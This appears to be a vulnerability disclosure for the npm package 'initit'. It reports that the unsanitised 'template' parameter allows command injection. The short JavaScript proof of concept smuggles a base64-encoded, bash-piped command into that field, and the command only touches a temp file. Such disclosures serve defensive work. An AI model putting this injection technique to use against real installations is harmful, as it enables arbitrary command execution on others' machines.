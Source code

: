  We find a potential command injection vulnerability from from [initit](https://www.npmjs.com/package/initit).
The bug is introduced because package-exported method fails to sanitize ``template`` parameter and let it flow into a sensitive command execution API.

The following code is the proof of concept.

```javascript
const initit = require("initit")

// touch /tmp/initit_rce
initit({name: "xxx",template: "`echo dG91Y2ggL3RtcC9pbml0aXRfcmNl | base64 -d | bash`/bbb"})f
```
